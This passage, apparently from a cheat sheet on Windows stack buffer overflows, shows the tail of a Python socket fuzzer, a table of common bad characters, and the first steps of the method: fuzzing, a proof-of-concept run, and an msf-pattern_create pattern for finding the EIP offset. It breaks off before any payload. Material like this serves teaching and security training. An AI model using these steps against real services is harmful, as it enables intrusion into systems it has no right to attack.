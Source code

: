 ```python
    print s.recv(2048)
    s.close()
    time.sleep(1)
    size += 100
    buffer = "A" * size
    print "-------------------------"
```

BADCHARS
---------------------------
{: .-two-column}

### ASCII Table


| CHAR | DEC | OCT  | HEX | Linux |
| ---- | --- | ---  | --- | -----
| (nl) | 10  | 0012 | x0a |  \n |
| (cr) | 13  | 0015 | x0d |  \r |
| A    | 65  | 0101 | x41 |     |
| B    | 66  | 0102 | x42 |     |
| C    | 67  | 0103 | x43 |     |     

### Commom Badchars
After see the ascii tables, we have 3 common badchars that are bad for the applications

```bash
\x00 = Null Byte o end of string
\x0a = New Line \n (linux)
\x0d = Carriage Return  \r (linux)
```

TRADITIONAL BUFFER OVERFLOW WINDOWS - STEP BY STEP 
--------------------------------------------------
{: .-two-column}

### 1 - Run Fuzzer
Run the fuzzer to discover how many bytes you get a buffer overflow
```bash
./fuzzer.py
```

### 2 - Run POC
Run the POC to be sure you got a buffer overflow in the stack
```bash
./poc-test.py

```

### 3 - Discover EIP Position in the Stack
creating a pattern with the bytes discovered by fuzzer
```bash
msf-pattern_create -l xxx

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```
inserting the pattern inside the POC and get the address in the EIP Register (**eipaddress**)
